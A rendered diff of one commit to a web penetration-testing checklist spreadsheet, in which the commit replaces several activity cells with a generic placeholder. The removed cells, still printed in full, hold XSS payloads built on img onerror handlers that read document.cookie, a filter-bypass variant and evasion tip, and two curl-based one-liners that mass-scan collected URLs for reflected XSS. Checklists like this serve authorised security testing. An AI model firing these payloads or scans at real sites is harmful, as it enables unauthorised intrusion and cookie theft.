

Before and after one commit to shivammittal2403/Checklish, an Excel workbook: Web Pentest Checklist.xlsx, sheet Web, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/Web Pentest Checklist.xlsx (sheet Web)
+++ b/Web Pentest Checklist.xlsx (sheet Web)
-D104 (Activity): Standard payload for URI and all inputs: ↵ "><img src=x onerror=prompt(document.cookie);><!-- ↵ "><img src=x onerror=confirm(document.cookie);><!-- ↵ "><img src=x onerror=alert(document.cookie);><!--
+D104 (Activity): Original operational content removed. Verify the associated safeguard using approved test identities, benign fixtures, owner-observed evidence, rate limits, and non-disruptive methods.
-D107 (Activity): if " are filtered then use this payload ↵ /><img src=d onerror=confirm(/chintan/);>
+D107 (Activity): Original operational content removed. Verify the associated safeguard using approved test identities, benign fixtures, owner-observed evidence, rate limits, and non-disruptive methods.
-D109 (Activity): Unsual way to execute your JS payload is to change method from POST to GET. It bypasses filters sometimes.
+D109 (Activity): Original operational content removed. Verify the associated safeguard using approved test identities, benign fixtures, owner-observed evidence, rate limits, and non-disruptive methods.
-D110 (Activity): findomain -t bugskan.com -q | httpx -silent | anew | waybackurls | gf xss >> xssss ; grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace '"><script>confirm(1)</script>' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)</script>" && echo "$host \033[0;31mVulnerable\n"; done
+D110 (Activity): Original operational content removed. Verify the associated safeguard using approved test identities, benign fixtures, owner-observed evidence, rate limits, and non-disruptive methods.
-D111 (Activity): cat urls.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)</script>" && echo "$host \033[0;31mVulnerable\n"; done
+D111 (Activity): Original operational content removed. Verify the associated safeguard using approved test identities, benign fixtures, owner-observed evidence, rate limits, and non-disruptive methods.
```
Also changed, not shown: 19 added rows, 17 edited cells and cell formats elsewhere in this sheet, charts or pictures, Active-Directory-Step-By-Step-Attack-Notes.xlsx, Dark Web Sites - Investigation (Gokul).xlsx, 20 other files.
